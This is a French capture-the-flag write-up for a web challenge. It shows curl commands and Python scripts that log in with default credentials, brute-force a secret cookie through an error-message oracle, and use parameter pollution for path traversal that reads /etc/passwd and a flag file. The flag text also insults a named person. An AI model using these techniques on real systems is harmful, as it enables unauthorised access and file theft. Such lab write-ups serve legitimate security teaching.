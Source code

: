 # WU - Challenge 15/01

# Découverte

Pour ce nouveau challenge, nous avons accès à une page Web : [https://challrob1.cyberlog.dev/](https://challrob1.cyberlog.dev/) 

Le site est composé de : 

- Une page de Login vers un ENT : [https://challrob1.cyberlog.dev/ENT](https://challrob1.cyberlog.dev/ENT)
- Une page [https://challrob1.cyberlog.dev/singes](https://challrob1.cyberlog.dev/singes) qui semble inutile
- Une page [https://challrob1.cyberlog.dev/#](https://challrob1.cyberlog.dev/#) qui est vide
- La page d’accueil avec des noms :
    - Bastien COUTAND
    - Marc BERNARD
    - Enzo DENOUE
    - et une photo de Lucas CHAPRON

# Login - ENT

Sans plus d’informations, nous allons nous concentré sur la page de **login.**

Les injections classiques de type ‘SQL’ ne semblent mener à rien.

Après plusieurs test, on teste une combinaire username:password classique sous 

**CWE-1391: Use of Weak Credentials** (admin:admin)

```jsx
curl -X POST -d "pseudo=admin&password=admin" https://challrob1.cyberlog.dev/loginENT
Found. Redirecting to /ent_admin
```

La combinaison fonctionne, nous sommes redirigés vers `/ent_admin` :

# ENT - Admin

La page personnelle de l’admin comprend un calendrier avec 2 tâches : 

- `TODO : Faire valider mon encodeur de TODO sous /CryptoNique`
- `D:sc s _rsei e_s-dul is dm  sununT pTe-iisTrs/ODnsopdsdrip/e eosseprn_dem: rccO/mi-nrn dli_cslcsid c_ccsdssoOr  er sOTincps_dnds_ Our_  meO s/mVeo/es_ e orsissT_or cnodcdsclurddeDmV _irem:rmOcrrredoOs :Or_T_eVeVo  r_- Os-esmmr/sp_e_ eo/oDc:/r_ r`

La première tâche fais allusion à une nouvelle route : `/CryptoNique` :

```jsx
curl https://challrob1.cyberlog.dev/CryptoNique
    random.seed(random.randrange(0, 1337))
    task_clear = REDACTED
    task_out = ''.join(random.choices(flag, k=len(task_clear)*5))
    print(task_out)
```

Et la deuxième tâche est un cyphertext.

En analysant le code source, on remarque que `random.seed` est appelé avec une valeur inconnue, mais petite, qui peut être forcée. L'appel à `random.choices` prend des caractères aléatoires de la tâche pour obtenir la tâche encodée. 

En forçant la seed, nous pouvons déterminer quels caractères aléatoires ont été pris et inverser le processus pour retrouver la tâche.

```python
import random

output = "XXXX"
task_len = len(output) // 5
for seed in range(1337):
	random.seed(seed)
	choices = random.choices(list(range(task_len)), k=len(output))
	task = [''] * len(output)
	for i, v in enumerate(choices):
	    task[v] = output[i]
task = ''.join(task)
if task.startswith('TODO'): # On sait que la tâche commence par "TODO"
    print(flag)
    break

=> TODO : Virer les creds sous /__creds__/nom-prenom
```

La nouvelle route est donc `/__creds__/nom-prenom`

# Credentials

Avec la liste des étudiants sur la page principal on peut tester les combinaisons : 

```python
/__creds__/coutand-bastien
etc...
```

Après les tests, on trouve qu’une route valide est `/__creds__/bernard-marc` :

```python
curl https://challrob1.cyberlog.dev/__creds__/bernard-marc && echo ""
"mycookie" is undefined, wait is this a CWE [...]
```

Comme l’indique le texte renvoyé, il s’agit bien d’une **CWE** sur `Information Exposure` 

Essayons de placer un cookie nommé `mycookie`:

```python
curl -b mycookie=a https://challrob1.cyberlog.dev/__creds__/bernard-marc && echo ""
a is incorrect
```

La réponse change, le site semble regarder char par char si le cookie est correct. Le site return `Length of cookie do not match` si le char est correct mais pas la longueur. Codons un script python ! : 

```python
import requests

url = 'https://challrob1.cyberlog.dev'
endpoint = '/__creds__/bernard-marc'

cookie = {"mycookie": "a"}

caracteres = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}'*-+"

r = requests.get(url + endpoint, cookies=cookie)
print(r.text)

while True:
     if "is incorrect" in r.text:
         for c in caracteres:
             cookie["mycookie"] = c
             r = requests.get(url + endpoint, cookies=cookie)
             if "is incorrect" not in r.text:
                 print("Found char: " + c)
                 break
         else:
             print("Char not found")
             break
     elif "Length of cookie do not match" in r.text:
         cookie["mycookie"] += caracteres[0]
         for c in caracteres:
             cookie["mycookie"] = cookie["mycookie"][:-1] + c
             r = requests.get(url + endpoint, cookies=cookie)
             if "is incorrect" not in r.text:
                 print("Found char: " + c)
                 break
     else:
         print("Cookie found: " + cookie["mycookie"])
         print("Flag: " + r.text)
         break
```

Et après un peu de temps : 

```python
Found char: C
Found char: o
Found char: o
Found char: k
Found char: i
Found char: e
Found char: H
Found char: y
Found char: p
Found char: e
Found char: r
Found char: S
Found char: e
Found char: c
Found char: u
Found char: r
Found char: e
Found char: 1
Found char: 4
Found char: 5
Found char: 5
Found char: 7
Found char: 8
Cookie found: CookieHyperSecure145578
Flag: BernardMarc:DumbPassword
```

On trouve les creds de notre utilisateur ! 

# Projets - Marc

On retourne sur la page de Login et on test les nouveaux paires identifiants:password : 

```python
curl -X POST -d "pseudo=BernardMarc&password=DumbPassword" https://challrob1.cyberlog.dev/loginENT && echo ""
Found. Redirecting to /bernard_projects
```

On est redirigé vers `/bernard_projects`

Le site est composé d’une horloge et d’une animation, sans plus d’informations nous regardons le code source “des” pages.

Sous `[https://challrob1.cyberlog.dev/js/bernard_projects.js](https://challrob1.cyberlog.dev/js/bernard_projects.js)` : 

```python
curl https://challrob1.cyberlog.dev/js/bernard_projects.js | grep Secret
	// Secret endpoint: /bernard_projects/monkeygen?sexe=X
```

On trouve une nouvelle sous-page : `/bernard_projects/monkeygen?sexe=X` :

En changeant le sexe par `m/f` : 

```python
curl https://challrob1.cyberlog.dev/bernard_projects/monkeygen?sexe=f
{"name":"Aloysia"}
```

On peut tester une LFI : 

```python
curl https://challrob1.cyberlog.dev/bernard_projects/monkeygen?sexe=../server.js
{"error":"Only one letter is allowed and sexe can't be neutral XD"}
```

Aïe, le serveur semble regarder si le paramètre placé après `?sexe=` a une longueur exactement égale à `1` : 

Le backend étant en `nodejs`, nous devons contourner la condition `length == 1,` et nous pourrions ainsi exploiter une LFI puisque l'entrée n'est pas filtrée.

On va donc exploiter de la pollution de paramètre en HTTP afin de bypass ce check.

La solution consiste à convertir l'entrée directement en liste, comme : 

```python
curl https://challrob1.cyberlog.dev/bernard_projects/monkeygen?sexe[]=../../../../etc/passwd
{"name":"backup:x:34:34:backup:/var/backups:/usr/sbin/nologin"}
```

ça fonctionne effectivement, on arrive à afficher `/etc/passwd` affichons flag.txt : 

```python
curl https://challrob1.cyberlog.dev/bernard_projects/monkeygen?sexe[]=../flag.txt
{"name":"CLOG{This_Monkey_BernardMarc_Is_Retarded_He_Thinks_He_Is_A_Programmer}"}
```

Et on flag ! 

- CLOG{This_Monkey_BernardMarc_Is_Retarded_He_Thinks_He_Is_A_Programmer}